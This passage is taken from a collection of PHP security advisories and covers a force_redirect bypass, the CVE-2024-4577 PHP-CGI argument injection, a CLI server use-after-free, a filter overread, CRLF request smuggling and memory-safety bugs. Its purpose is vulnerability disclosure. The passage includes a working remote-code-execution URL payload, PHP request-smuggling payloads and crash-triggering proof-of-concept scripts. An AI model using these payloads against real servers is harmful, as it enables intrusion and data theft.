"861"="c_861.nls"        ;OEM*      Icelandic
"862"="c_862.nls"        ;OEM       Hebrew
"865"="c_865.nls"        ;OEM*      Nordic
"870"="c_870.nls"        ;IBM EBCDIC     Latin-2 Multilingual/ROECE
"875"="c_875.nls"        ;IBM EBCDIC       Greece

---

I overlooked the difference between ANSI and OEM code pages in my initial analysis.
Windows code pages are divided into ANSI and OEM code pages, where ANSI is used for GUI programs and OEM for console programs.
The previously mentioned affected code pages are all OEM code pages, while the xampp environment uses ANSI code pages for creating subprocesses.

Therefore, changing the ACP field in the registry to 437 in the previous reproduction step is a configuration that is unlikely to occur in a real environment.

But this is still a potential security issue with php-cgi.exe:  If a command line program like xampp uses php-cgi.exe in a similar form, problems may still occur.  
In addition, there are actually some wide characters in the ANSI code page that can be converted to double quotes too, such as 0x2ba in the 1250 ANSI code page, but Apache limits our data range when expanding the input data to UTF-16. We can only look for wide characters that may be exploited in the range of 0x007f - 0x00ff, which makes 0x2ba unusable. Once other web servers break this limitation, php-cgi.exe may still have problems.

From  HuanGMz, s0duku, m4yfly from TianGong Team of Legendsec at Qi'anxin Group

## GHSA-94p6-54jq-9mwp — cgi.force_redirect configuration is bypassable due to the environment variable collision
- CVE: CVE-2024-8927 | Severity: medium | CVSS: 5.3 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | CWE: 
- Published: 2024-09-27T17:51:24Z | URL: https://github.com/php/php-src/security/advisories/GHSA-94p6-54jq-9mwp
- Affected /: vulnerable < 8.1.30 patched 8.1.30
- Affected /: vulnerable < 8.2.24 patched 8.2.24
- Affected /: vulnerable < 8.3.12 patched 8.3.12
- Credits: Ry0taK

### Summary
According to <https://www.php.net/manual/en/security.cgi-bin.force-redirect.php>, the configuration directive [`cgi.force_redirect`](https://www.php.net/manual/en/ini.core.php#ini.cgi.force-redirect) prevents anyone from calling PHP directly with a URL like `http://host.example/cgi-bin/php/secretdir/script.php`.  
The default value of `cgi.force_redirect` is `1`.

But there is a bug that can cause attackers to bypass restrictions and access php-cgi directly.

### Details

Both `REDIRECT_STATUS` or `HTTP_REDIRECT_STATUS` are considered legal environment variable while `cgi.force_redirect` is turned on:

https://github.com/php/php-src/blob/master/sapi/cgi/cgi_main.c#L1905

```c
	/* check force_cgi after startup, so we have proper output */
	if (cgi && CGIG(force_redirect)) {
		/* Apache will generate REDIRECT_STATUS,
		 * Netscape and redirect.so will generate HTTP_REDIRECT_STATUS.
		 * redirect.so and installation instructions available from
		 * http://www.koehntopp.de/php.
		 *   -- kk@netuse.de
		 */
		if (!getenv("REDIRECT_STATUS") &&
			!getenv ("HTTP_REDIRECT_STATUS") &&
			/* this is to allow a different env var to be configured
			 * in case some server does something different than above */
			(!CGIG(redirect_status_env) || !getenv(CGIG(redirect_status_env)))
		) {
			zend_try {
				SG(sapi_headers).http_response_code = 400;
				PUTS("<b>Security Alert!</b> The PHP CGI cannot be accessed directly.\n\n\
<p>This PHP CGI binary was compiled with force-cgi-redirect enabled.  This\n\
means that a page will only be served up if the REDIRECT_STATUS CGI variable is\n\
set, e.g. via an Apache Action directive.</p>\n\
<p>For more information as to <i>why</i> this behaviour exists, see the <a href=\"http://php.net/security.cgi-bin\">\
manual page for CGI security</a>.</p>\n\
<p>For more information about changing this behaviour or re-enabling this webserver,\n\
consult the installation file that came with this distribution, or visit \n\
<a href=\"http://php.net/install.windows\">the manual page</a>.</p>\n");
			} zend_catch {
			} zend_end_try();
#if defined(ZTS) && !defined(PHP_DEBUG)
			/* XXX we're crashing here in msvc6 debug builds at
			 * php_message_handler_for_zend:839 because
			 * SG(request_info).path_translated is an invalid pointer.
			 * It still happens even though I set it to null, so something
			 * weird is going on.
			 */
			tsrm_shutdown();
#endif
			free(bindpath);
			return FAILURE;
		}
	}
```

Unexpectedly, `Redirect-Status` header is converted to the `HTTP_REDIRECT_STATUS` environment variable, allowing the attacker to bypass the `cgi.force_redirect` variable through HTTP headers.

### Impact
The `cgi.force_redirect` configuration can be bypassed.

While this does not pose significant security risks in most common configurations, certain configurations that modifies the `SCRIPT_FILENAME` environment variable may allow the arbitrary file inclusion.

## GHSA-3qgc-jrrr-25jv — PHP RCE: A Bypass of CVE-2012-1823, Argument Injection in PHP-CGI
- CVE: CVE-2024-4577 | Severity: high | CVSS: None `None` | CWE: CWE-20
- Published: 2024-09-28T17:37:20Z | URL: https://github.com/php/php-src/security/advisories/GHSA-3qgc-jrrr-25jv
- Affected /: vulnerable < 8.3.8 patched 8.3.8
- Affected /: vulnerable < 8.2.20 patched 8.2.20
- Affected /: vulnerable < 8.1.29 patched 8.1.29
- Credits: orangetw

Hi, 

I am Orange Tsai from DEVCORE Research Team. We recently found a vulnerability on PHP. We have reproduced the issues in the latest version of PHP 8.3.6 and would like to report it to you. Please check the attached document for details.

This advisory is in accordance with our vulnerability disclosure policy, which will be publicly disclosed after 90 days. Our aim is to ensure that vulnerabilities can be patched in a timely manner. Although it’s not a hard deadline, we still hope you can fix this vulnerability before August 04, 2024.

Please let me know if you have any questions, thanks!


# Impact

An attacker can execute arbitrary PHP code on the remote server. This vulnerability affects the PHP built with Windows.


# Details

The PHP-CGI which configured under Apache HTTP Server accepts the command-line arguments by default. This behavior was prove to vulnerable, and tracked as [CVE-2012-1823](https://bugs.php.net/bug.php?id=61910) before. The PHP published the following code to patch the vulnerability:

***# Path: sapi/cgi/cgi_main.c:1801** https://github.com/php/php-src/blob/php-8.0.30/sapi/cgi/cgi_main.c#L1801*

```c
/* {{{ main */
int main(int argc, char *argv[])
{
	int free_query_string = 0;
	int exit_status = SUCCESS;
	int cgi = 0, c, i;
	size_t len;
	zend_file_handle file_handle;
	char *s;
    
	// ...
    
	// [1] this is the patch of CVE-2012-1823
	if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
		/* we've got query string that has no = - apache CGI will pass it to command line */
		unsigned char *p;
		decoded_query_string = strdup(query_string);
		php_url_decode(decoded_query_string, strlen(decoded_query_string));
		for (p = (unsigned char *)decoded_query_string; *p &&  *p <= ' '; p++) {
			/* skip all leading spaces */
		}
		if(*p == '-') {
			skip_getopt = 1;
		}
		free(decoded_query_string);
	}
    
	while (!skip_getopt && (c = php_getopt(argc, argv, OPTIONS, &php_optarg, &php_optind, 0, 2)) != -1) {
		switch (c) {
			// process the arguments
        }
        
    }
```

This argument `argv` is based on the `QUERY_STRING`, and the patch checks for no leading hyphen on the `QUERY_STRING` to ensure there are no dangerous arguments. However, if the binding between `argv` and `QUERY_STRING` is broken, the vulnerability of PHP-CGI Argument Injection would reappear!

This patch will fail under the Windows system. Internally, Windows uses UCS-2 as its character set. Any characters passed to the ANSI Win32 API (such as `GetCommandLineA`), especially those with code point greater than 0x80, will be mapped to the corresponding UCS-2 code points by the current code page.

The Windows internal also introduces a "Best-Fit" feature that replace the character if there is a more suitable character to display in the destination code page. 

The description and specification can be found here:
* [WindowsBestFit/readme.txt](https://www.unicode.org/Public/MAPPINGS/VENDORS/MICSFT/WindowsBestFit/readme.txt)
* [2.2.2.1.1 WCTABLE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ucoderef/d1980631-6401-428e-a49d-d71394be7da8)

This "Best-Fit" behavior also introduces some quirks to bypass the original fix. For example: the best-fit replacement of the code point 0xAD (soft-hyphen) is the normal hyphen 0x2D under the code page 932, 936 and 950. That leads to the bypass. 

For a default PHP-CGI configuration under Apache HTTP Server + Windows, the original PoC would no longer work because of the patch of CVE-2012-1823.
> http://server/index.php?-s

However, if the attacker change the `-` to `%ad`, it bypasses the patch and inject `-s` to show the PHP source code...
> `http://server/index.php?%ads`

Here is a small PoC to demonstrate the quirk:

```bash
#include <stdio.h>

int main(int argc, char *argv[], char *env[]) {
    if (argc == 2) printf("[1] = %s\n", argv[1]);
    return 0;
}
```

You can build it under the Visual Studio, and check the above quirk:

```
C:\Users\orange\source\repos\test-cli\x64\Debug> dir 
test-cli.exe    test.py

C:\Users\orange\source\repos\test-cli\x64\Debug> type test.py
from subprocess import check_output
print(check_output(['./test-cli.exe', '\xads']))

C:\Users\orange\source\repos\test-cli\x64\Debug> python3 test.py
b'./test-cli.exe -s\r\n
```


# PoC

In theory, this vulnerability affects all PHP-CGI installations that are running under Apache HTTP Server on Windows. However, the Apache HTTP Server did not accept the UTF-8 during the request processing. To meet the vulnerable scenario, the condition must meets **(1) The code page has the "Best-Fit" behavior** and (2) **A code point smaller than 0xFF that maps to 0x2D**. 

Only the PHP-CGI under the Windows whose region are from Japan, China, Hong Kong, Macao, Singapore and Taiwan are affected.

To reproduce the vulnerability, we have set up a demo on a system running Windows 11 and the latest version of [XAMPP](https://www.apachefriends.org/download.html). Although the PHP version included with the latest XAMPP release is not up-to-date, it is sufficient for this demonstration. We have verified that the bug can be reproduced on the latest PHP version, 8.3.6. This setup is solely for demonstration purposes.


## 1. Check the Windows 11 is the latest version


## 2. Ensure the locale is in one of the vulnerable region from `Windows` -> `Settings` -> `Time & language` -> `Language & region` -> `Administrative language settings` -> `Change system locale...`. Here we use Japan as an example. 


## 3. Exploit scenarios:

### 3-1. If the target server is running under the PHP-CGI mode, you can just verify the vulnerability by appending the `-s` option:

> `http://server/index.php?%ads`


### 3-2. If the `php-cgi.exe` is exposed externally, it can also be exploited without any additional change. XAMPP is exactly in this situation. The default XAMPP installation is VULNERABLE BY DEFAULT. You can just install the latest version of XAMPP [here](https://www.apachefriends.org/download.html), and get arbitrary PHP code execution by `auto_prepend_file`:

> `http://server/php-cgi/php-cgi.exe?%add+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input`

*PS: Please note the `Redirect-Status` header matters.*


# Credit Discovery To
Orange Tsai ([@orange_8361](https://twitter.com/orange_8361)) from DEVCORE Research Team


## GHSA-4w77-75f9-2c8w — Heap-Use-After-Free in sapi_read_post_data Processing in CLI SAPI Interface
- CVE: None | Severity: low | CVSS: None `None` | CWE: 
- Published: 2024-11-21T18:15:01Z | URL: https://github.com/php/php-src/security/advisories/GHSA-4w77-75f9-2c8w
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14
- Credits: frostb1ten

### Summary
A heap-use-after-free vulnerability in the sapi_read_post_data function within PHP’s CLI server allows an attacker to potentially exploit memory safety issues during POST request processing.


### Details
The vulnerability resides in the `php_cli_server_client_populate_request_info` function in PHP's CLI SAPI. This results in the handling of a dangling `content_type` pointer at line 175 of SAPI.c. The CLI improperly manages memory during the processing of content_type, leading to a use-after-free condition that could result in memory corruption. The issue is triggered by specific crafted POST data, as shown by the following AddressSanitizer output:
```
==82343==ERROR: AddressSanitizer: heap-use-after-free on address 0x50600001ecf8 at pc 0x55555581b44f bp 0x7fffffffdcf0 sp 0x7fffffffd4b8
READ of size 34 at 0x50600001ecf8 thread T0
    #1 0x5555563bfadb in sapi_read_post_data /php-8.3.13/main/SAPI.c:175:43
    #2 0x5555563bfadb in sapi_activate /php-8.3.13/main/SAPI.c:469:4
```


### PoC
1. `exploit.py`
```py
import requests

url = 'http://localhost:8080/exploit.php'

php_crash_data = "AAAAAAA"

print("Sending payload 1...")
hex_response = requests.post(url, data={'input': php_crash_data})

print("\nSending payload 2...")
raw_response = requests.post(url, data=php_crash_data)

```

2. `exploit.php`
```php
<?php
$binary_data = file_get_contents('php://input');
echo $binary_data ? "Received Data:\n$binary_data" : "No input provided or data was empty.";
?>
```

3. Start the PHP server compiled with ASAN: In the directory containing exploit.php, run: `./sapi/cli/php -S localhost:8080 &`
2. Run the exploit: Execute the PoC script by running: `python3 exploit.py`

Resulted in this output:
```c
root@32fbd16f3ed1:/php-8.3.13# ./sapi/cli/php -S localhost:8080 &
[1] 82343
root@32fbd16f3ed1:/php-8.3.13# [Sat Nov  9 07:08:06 2024] PHP 8.3.13 Development Server (http://localhost:8080) started

root@32fbd16f3ed1:/php-8.3.13# python3 exploit.py
Sending payload 1...
[Sat Nov  9 07:08:14 2024] [::1]:54356 Accepted
[Sat Nov  9 07:08:14 2024] [::1]:54356 [200]: POST /exploit.php
[Sat Nov  9 07:08:14 2024] [::1]:54356 Closing

Sending payload 2...
[Sat Nov  9 07:08:14 2024] [::1]:54360 Accepted
=================================================================
==82343==ERROR: AddressSanitizer: heap-use-after-free on address 0x50600001ecf8 at pc 0x55555581b44f bp 0x7fffffffdcf0 sp 0x7fffffffd4b8
READ of size 34 at 0x50600001ecf8 thread T0
    #0 0x55555581b44e in strlen (/php-8.3.13/sapi/cli/php+0x41b44e) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf)
    #1 0x5555563bfadb in sapi_read_post_data /php-8.3.13/main/SAPI.c:175:43
    #2 0x5555563bfadb in sapi_activate /php-8.3.13/main/SAPI.c:469:4
    #3 0x555556394fce in php_request_startup /php-8.3.13/main/main.c:1795:3
    #4 0x555556c42e7b in php_cli_server_request_startup /php-8.3.13/sapi/cli/php_cli_server.c:2236:17
    #5 0x555556c42e7b in php_cli_server_dispatch /php-8.3.13/sapi/cli/php_cli_server.c:2316:18
    #6 0x555556c42e7b in php_cli_server_recv_event_read_request /php-8.3.13/sapi/cli/php_cli_server.c:2660:11
    #7 0x555556c46447 in php_cli_server_do_event_for_each_fd_callback /php-8.3.13/sapi/cli/php_cli_server.c:2745:5
    #8 0x555556c3c8e7 in php_cli_server_poller_iter_on_active /php-8.3.13/sapi/cli/php_cli_server.c:932:20
    #9 0x555556c3c8e7 in php_cli_server_do_event_for_each_fd /php-8.3.13/sapi/cli/php_cli_server.c:2765:17
    #10 0x555556c3c8e7 in php_cli_server_do_event_loop /php-8.3.13/sapi/cli/php_cli_server.c:2777:4
    #11 0x555556c3c8e7 in do_cli_server /php-8.3.13/sapi/cli/php_cli_server.c:2909:17
    #12 0x555556c272bd in main /php-8.3.13/sapi/cli/php_cli.c:1344:18
    #13 0x7ffff75301c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #14 0x7ffff753028a in __libc_start_main csu/../csu/libc-start.c:360:3
    #15 0x555555803bc4 in _start (/php-8.3.13/sapi/cli/php+0x403bc4) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf)

0x50600001ecf8 is located 24 bytes inside of 64-byte region [0x50600001ece0,0x50600001ed20)
freed by thread T0 here:
    #0 0x55555589e77a in free (/php-8.3.13/sapi/cli/php+0x49e77a) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf)
    #1 0x55555667fff8 in zend_hash_destroy /php-8.3.13/Zend/zend_hash.c:1775:7

previously allocated by thread T0 here:
    #0 0x55555589ea13 in malloc (/php-8.3.13/sapi/cli/php+0x49ea13) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf)
    #1 0x5555564deb49 in __zend_malloc /php-8.3.13/Zend/zend_alloc.c:3128:14

SUMMARY: AddressSanitizer: heap-use-after-free (/php-8.3.13/sapi/cli/php+0x41b44e) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf) in strlen
Shadow bytes around the buggy address:
  0x50600001ea00: 00 00 00 fa fa fa fa fa 00 00 00 00 00 00 00 00
  0x50600001ea80: fa fa fa fa 00 00 00 00 00 00 00 00 fa fa fa fa
  0x50600001eb00: 00 00 00 00 00 00 00 00 fa fa fa fa 00 00 00 00
  0x50600001eb80: 00 00 00 00 fa fa fa fa 00 00 00 00 00 00 00 00
  0x50600001ec00: fa fa fa fa fd fd fd fd fd fd fd fd fa fa fa fa
=>0x50600001ec80: 00 00 00 00 00 00 00 fa fa fa fa fa fd fd fd[fd]
  0x50600001ed00: fd fd fd fd fa fa fa fa 00 00 00 00 00 00 05 fa
  0x50600001ed80: fa fa fa fa 00 00 00 00 00 00 00 04 fa fa fa fa
  0x50600001ee00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x50600001ee80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x50600001ef00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==82343==ABORTING
```

### Impact

CLI server should not be used in production but there is still risk for developers running the CLI server. It may be possible to exploit it  if the server only listens on localhost. E.g. a web page may trick your browser into sending a request to localhost. So developers running the CLI server could be attacked by tricking them into visiting a malicious web page. There might be other impact but it's not exactly clear about the likeliness of this attack.


## GHSA-r977-prxv-hc43 — Single byte overread with convert.quoted-printable-decode filter
- CVE: CVE-2024-11233 | Severity: medium | CVSS: 4.8 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:L` | CWE: CWE-122
- Published: 2024-11-21T18:15:14Z | URL: https://github.com/php/php-src/security/advisories/GHSA-r977-prxv-hc43
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14
- Credits: frostb1ten

### Summary
A memory-related vulnerability in PHP’s filter handling system, particularly when processing input with convert.quoted-printable-decode filters, leads to a segmentation fault. This vulnerability is triggered through specific sequences of input data, causing PHP to crash. When exploited, it allows an attacker to extract a single byte of data from the heap or cause a DoS.


### Details
The issue is caused by a missing bound check.

The crash is reliably detected by AddressSanitizer (ASAN), which reports a segmentation fault caused by a read memory access violation. This suggests that there may be an out-of-bounds read or a use-after-free condition in the affected filters. Below is an example stack trace as detected by ASAN:

```
AddressSanitizer: SEGV on unknown address 0x7ffff4200000 (pc 0x55555635d5b4 bp 0x000000000001 sp 0x7fffffff9e20 T0)
The signal is caused by a READ memory access.
#0 0x55555635d5b4 in php_conv_qprint_decode_convert (/php-8.3.13/sapi/cli/php+0xf5d5b4)
#1 0x555556355e00 in strfilter_convert_append_bucket (/php-8.3.13/sapi/cli/php+0xf55e00)
#2 0x55555635507d in strfilter_convert_filter (/php-8.3.13/sapi/cli/php+0xf5507d)
...
```

### PoC
1. Set to not detect leaks 
`export ASAN_OPTIONS=detect_leaks=0`

2. Run the following with the 2 attached files against php compiled with ASAN in [php_crash.zip](https://github.com/user-attachments/files/17654396/php_crash.zip)
`cat ./php_crash | ./sapi/cli/php poc.php`

3. Note the ASAN trace once the final output his the echo implode
```
root@32fbd16f3ed1:/php-8.3.13# cat php_crash | ./sapi/cli/php zlib_fuzz.php
Warning: file_get_contents(): Unable to locate filter "bzip2.compress" in /php-8.3.13/zlib_fuzz.php on line 25

Warning: file_get_contents(): Unable to create filter (bzip2.compress) in /php-8.3.13/zlib_fuzz.php on line 25

Warning: file_get_contents(): Unable to locate filter "bzip2.decompress" in /php-8.3.13/zlib_fuzz.php on line 25

Warning: file_get_contents(): Unable to create filter (bzip2.decompress) in /php-8.3.13/zlib_fuzz.php on line 25
AddressSanitizer:DEADLYSIGNAL
=================================================================
==1558930==ERROR: AddressSanitizer: SEGV on unknown address 0x7ffff4200000 (pc 0x55555635d5b4 bp 0x000000000001 sp 0x7fffffff9e40 T0)
==1558930==The signal is caused by a READ memory access.
    #0 0x55555635d5b4 in php_conv_qprint_decode_convert /php-8.3.13/ext/standard/filters.c:999:46
    #1 0x555556355e00 in strfilter_convert_append_bucket /php-8.3.13/ext/standard/filters.c
    #2 0x55555635507d in strfilter_convert_filter /php-8.3.13/ext/standard/filters.c:1525:7
    #3 0x5555563f7b0f in _php_stream_fill_read_buffer /php-8.3.13/main/streams/streams.c:583:14
    #4 0x5555563f942e in _php_stream_read /php-8.3.13/main/streams/streams.c:747:8
    #5 0x555556400a9c in _php_stream_copy_to_mem /php-8.3.13/main/streams/streams.c:1580:16
    #6 0x5555561ced5e in zif_file_get_contents /php-8.3.13/ext/standard/file.c:445:18
    #7 0x555556887bae in ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER /php-8.3.13/Zend/zend_vm_execute.h:1337:2
    #8 0x5555566e729b in execute_ex /php-8.3.13/Zend/zend_vm_execute.h:57007:7
    #9 0x5555566e7e95 in zend_execute /php-8.3.13/Zend/zend_vm_execute.h:61604:2
    #10 0x5555565f7adb in zend_execute_scripts /php-8.3.13/Zend/zend.c:1893:4
    #11 0x55555639c646 in php_execute_script /php-8.3.13/main/main.c:2528:13
    #12 0x555556c29b97 in do_cli /php-8.3.13/sapi/cli/php_cli.c:966:5
    #13 0x555556c270aa in main /php-8.3.13/sapi/cli/php_cli.c:1341:18
    #14 0x7ffff75301c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #15 0x7ffff753028a in __libc_start_main csu/../csu/libc-start.c:360:3
    #16 0x555555803bc4 in _start (/php-8.3.13/sapi/cli/php+0x403bc4) (BuildId: 712b3d4fbdcb978a011679cd1c90ada321af14cf)
```
AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /php-8.3.13/ext/standard/filters.c:999:46 in php_conv_qprint_decode_convert
### Impact
It affects any systems that use these filters in sequence, especially those processing untrusted user input through php://filter. Systems leveraging this filter chain may be vulnerable to this overrun, and under specific conditions, there is a risk of DoS or information leakage.


## GHSA-5hqh-c84r-qjcv — Integer overflow in the firebird and dblib quoters causing OOB writes
- CVE: CVE-2024-11236 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2024-11-21T18:15:20Z | URL: https://github.com/php/php-src/security/advisories/GHSA-5hqh-c84r-qjcv
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14

### Impact

The following code:
https://github.com/php/php-src/blob/5070fbf1613015e351bc4629ac7997b26359320b/ext/pdo_firebird/firebird_driver.c#L805-L808

and the following code:
https://github.com/php/php-src/blob/c34b37fe0b5c099fcf506c5400552d6bbb95cd79/ext/pdo_dblib/dblib_driver.c#L164-L174

Can cause integer overflow, or can become a value over `ZSTR_MAX_LEN` causing an overflow, which eventually turns into an OOB write. This is triggerable on 32-bit especially.


## GHSA-c5f2-jwm7-mmq2 — Configuring a proxy in a stream context might allow for CRLF injection in URIs
- CVE: CVE-2024-11234 | Severity: medium | CVSS: None `None` | CWE: CWE-93
- Published: 2024-11-21T18:15:25Z | URL: https://github.com/php/php-src/security/advisories/GHSA-c5f2-jwm7-mmq2
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14
- Credits: LorenzoLeonardini

### Summary

Configuring a proxy in a [stream context](https://www.php.net/manual/en/stream.contexts.php) might allow for CRLF injection in URIs, resulting in HTTP request smuggling attacks.

### Details

When creating a stream using one of the available stream creation functions (e.g., `fopen`, `file`, `file_get_contents`...), developers can specify a custom stream context containing a set of parameters to use during the connection. One such parameter, in the case of HTTP and FTP streams, is `proxy`. The HTTP context options also include a `request_fulluri` boolean, which is required by some proxies to correctly forward the request.

While a normal request to `http://example.com/path/to/file?query` would results in the following HTTP request:

```http
GET /path/to/file?query HTTP/1.1
```

when setting `request_fulluri` to `true` we obtain:

```http
GET http://example.com/path/to/file?query HTTP/1.1
```

The vulnerability lies in the [implementation of `request_fulluri`](https://github.com/php/php-src/blob/0d616d1b82ca7609a7ece762cb8688d9bed74370/ext/standard/http_fopen_wrapper.c#L393), which just inserts the raw URI into the HTTP request line. In particular, this bypasses the normal [control characters sanitization](https://github.com/php/php-src/blob/0d616d1b82ca7609a7ece762cb8688d9bed74370/ext/standard/url.c#L53) usually performed [when parsing the URL](https://github.com/php/php-src/blob/0d616d1b82ca7609a7ece762cb8688d9bed74370/ext/standard/url.c#L323).

This means that, if the resource URI is under the partial control of an attacker, when the `request_fulluri` context parameter is true, a malicious actor could inject CRLF characters to perform a HTTP request smuggling attack.

Furthermore, if a non-HTTP stream sets a `proxy` parameter in the context (right now only the FTP context supports this), the `request_fulluri` parameter gets [automatically silently enabled](https://github.com/php/php-src/blob/0d616d1b82ca7609a7ece762cb8688d9bed74370/ext/standard/http_fopen_wrapper.c#L164) without the developer ever knowing.

Notice that, in the case of HTTP streams, setting a proxy is not strictly necessary, as the real issue is the `request_fulluri` parameter.

### PoC

We can test the raw query performed by PHP by simply using netcat in listening mode (`nc -lvnp 1337`).

When no proxy is configured, the malicious input is correctly sanitized (still producing an error due to the presence of unencoded spaces):

```php
$userinput = " HTTP/1.1\r\nHost: localhost:1337\r\n\r\nGET /admin HTTP/1.1\r\nHost: adminpanel\r\n\r\nGET /";

file_get_contents("http://localhost:1337/$userinput");
```

```http
GET / HTTP/1.1__Host: localhost:1337____GET /admin HTTP/1.1__Host: adminpanel____GET / HTTP/1.1
Host: localhost:1337
Connection: close
```

When using a proxy and setting `request_fulluri` to `true`, we get request smuggling:

```php
$opts = ['http' => ['proxy' => 'tcp://localhost:1337', 'request_fulluri' => true]];
$context = stream_context_create($opts);

$userinput = " HTTP/1.1\r\nHost: localhost:1337\r\n\r\nGET /admin HTTP/1.1\r\nHost: adminpanel\r\n\r\nGET /";

file_get_contents("http://localhost:1337/$userinput", false, $context);
```

```http
GET http://localhost:1337/ HTTP/1.1
Host: localhost:1337

GET /admin HTTP/1.1
Host: adminpanel

GET / HTTP/1.1
Host: localhost:1337
Connection: close
```

This also happens with HTTP proxies on FTP, without the `request_fulluri` parameter:

```php
$opts = ['ftp' => ['proxy' => 'tcp://localhost:1337']];
$context = stream_context_create($opts);

$userinput = " HTTP/1.1\r\nHost: localhost:1337\r\n\r\nGET /admin HTTP/1.1\r\nHost: adminpanel\r\n\r\nGET /";

file_get_contents("ftp://localhost:1337/$userinput", false, $context);
```

```http
GET ftp://localhost:1337/ HTTP/1.1
Host: localhost:1337

GET /admin HTTP/1.1
Host: adminpanel

GET / HTTP/1.1
Host: localhost:1337
Connection: close
```

### Impact

CLRF injection in the URI leads to Server Side Request Forgery attacks (SSRF), which allows an attacker to bypass security controls, access internal endpoints, and, since we control the `Host:` header, potentially access different hosts or machines.

Crafted requests can use any HTTP method and set any header to any value, including sensitive headers like `Authorization`, `Cookie`, `Origin`, or `Referer`.

Moreover, in some setups, the attacker might be able to read the HTTP response of each of the smuggled request.


## GHSA-g665-fm4p-vhff — OOB access in ldap_escape
- CVE: CVE-2024-8932 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2024-11-21T18:15:31Z | URL: https://github.com/php/php-src/security/advisories/GHSA-g665-fm4p-vhff
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14
- Credits: Crispy-fried-chicken

### Impact

Uncontrolled long string inputs to `ldap_escape` on 32-bit systems can cause an integer overflow, resulting in an out-of-bounds write.

### Details

This issue affected HHVM prior to 4.56.2, all versions between 4.57.0 and 4.78.0, 4.79.0, 4.80.0, 4.81.0, 4.82.0, 4.83.0.
> Reference: https://nvd.nist.gov/vuln/detail/CVE-2020-1916
> Patch: https://github.com/facebook/hhvm/commit/abe0b29e4d3a610f9bc920b8be4ad8403364c2d4


## GHSA-h35g-vwh6-m678 — [Mysqlnd] Leak partial content of the heap through heap buffer over-read 
- CVE: CVE-2024-8929 | Severity: high | CVSS: None `None` | CWE: CWE-126, CWE-200, CWE-244, CWE-488
- Published: 2024-11-21T18:15:38Z | URL: https://github.com/php/php-src/security/advisories/GHSA-h35g-vwh6-m678
- Affected /: vulnerable < 8.1.31 patched 8.1.31
- Affected /: vulnerable < 8.2.26 patched 8.2.26
- Affected /: vulnerable < 8.3.14 patched 8.3.14
- Credits: Faeris95

### Summary
By connecting to a fake MySQL server or tampering with network packets and initiating a SQL Query, it is possible to abuse the function `static enum_func_status php_mysqlnd_rset_field_read` when parsing MySQL fields packets in order to include the rest of the heap content starting from the address of the cursor of the currently read buffer. 
Using PHP-FPM which stays alive between request, and between two different SQL query requests, as the previous buffer used to store received data from MySQL is not emptied and `malloc` allocates a memory region which is very near the previous one, one is able to extract the response content of the previous MySQL request from the PHP-FPM worker.

### Details

After the connection against a MySQL database is established, when initiating a SQL query, for example through `mysqli_query`, the expected response from the server is of the following format :
- A `column count` packet, describing the number of fields that are expected to be received;
- As much as `fields packets` as there are fields to be transmitted;
- An `intermediate EOF` packet, telling it is the end of the "fields packets";
- As much as `row packet` as there are entries to be transmitted.

The MySQL `fields` packets,  are parsed by the `static enum_func_status php_mysqlnd_rset_field_read` defined in `/ext/mysqlnd/mysqlnd_wireprotocol.c`. 

Here are the interesting parts : 
``` C
static enum_func_status
php_mysqlnd_rset_field_read(MYSQLND_CONN_DATA * conn, void * _packet)
{
	MYSQLND_PACKET_RES_FIELD *packet = (MYSQLND_PACKET_RES_FIELD *) _packet;
	MYSQLND_ERROR_INFO * error_info = conn->error_info;
	MYSQLND_PFC * pfc = conn->protocol_frame_codec;
	MYSQLND_VIO * vio = conn->vio;
	MYSQLND_STATS * stats = conn->stats;
	MYSQLND_CONNECTION_STATE * connection_state = &conn->state;
	const size_t buf_len = pfc->cmd_buffer.length;
	size_t total_len = 0;
	zend_uchar * const buf = (zend_uchar *) pfc->cmd_buffer.buffer;
	const zend_uchar * p = buf;
	const zend_uchar * const begin = buf;
	char *root_ptr;
	zend_ulong len;
	MYSQLND_FIELD *meta;
  
       ...

// We learn here that it is not supposed to support COM_FIELD_LIST anymore.
	if (ERROR_MARKER == *p) {
		/* Error */
		p++;
		BAIL_IF_NO_MORE_DATA;
